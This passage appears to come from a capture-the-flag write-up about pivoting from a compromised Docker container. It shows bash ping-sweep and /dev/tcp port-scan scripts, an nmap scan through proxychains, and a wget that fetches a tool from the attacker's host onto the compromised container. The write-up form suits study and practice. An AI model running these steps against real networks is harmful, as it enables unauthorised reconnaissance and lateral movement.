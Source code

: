 ```bash
if [ $1 ]; then
  base_ip=$1
  echo -e "\n[*] Anaylizing active hosts in $base_ip\n"
  for host in `seq 1 254`;do # Host 1 is router and host 255 is broadcast
    host_ip="$(echo $base_ip | awk -F'.' 'OFS="." {print $1,$2,$3}').$host"
    timeout 1 bash -c "ping -c 1 $host_ip" >/dev/null && echo -e "\t[+] $host_ip - ACTIVE" &
  done
  echo -e "\n[*] Exiting..."
else
  echo "[!] Usage: $0 <base-ip>"  
fi
root@3a453ab39d3d:/tmp# chmod +x hostDiscovery
root@3a453ab39d3d:/tmp# hostname -I
172.19.0.2 
root@3a453ab39d3d:/tmp# ./hostDiscovery 172.19.0.2

[*] Anaylizing active hosts in 172.19.0.2

	[+] 172.19.0.1 - ACTIVE
	[+] 172.19.0.2 - ACTIVE

[*] Exiting...
```
So we can guess that the IP for the host machine is `172.19.0.1`. Now, we can perform a nmap scan:
```bash
sudo proxychains nmap -p- -sS --min-rate 5000 -n -Pn 172.19.0.1 -v -oG Enum/allPorts_chisel
❯ extractPorts Enum/allPorts_chisel

[*] Extracting information...

	[*] IP Address:  172.19.0.1 

	[*] Open ports:   


[*] Ports have been copied to clipboard...
```
So the nmap scan didn't even find the port 80, that is quite strange so we decided to perform a manual port scan from within the docker:
```bash
root@3a453ab39d3d:/tmp# wget 10.10.16.2:4444/portScan
root@3a453ab39d3d:/tmp# chmod +x portScan
root@3a453ab39d3d:/tmp# cat portScan 
#!/bin/bash

if [ $1 ];then
  ip_addr=$1
  echo -e "\n[*] Testing all open ports on $ip_addr\n"
  for port in `seq 1 65535`; do
    timeout 1 bash -c "echo '' > /dev/tcp/$ip_addr/$port" 2>/dev/null && echo -e "\t[+] Port $port - open" &
  done
  echo -e "\n[*] Tested 65535 Ports"
else
  echo -e "Usage: $0 <ip-address>\n"  
  exit 1
fi
root@3a453ab39d3d:/tmp# ./portScan 172.19.0.1

[*] Testing all open ports on 172.19.0.1

	[+] Port 80 - open
	[+] Port 22 - open
^C
```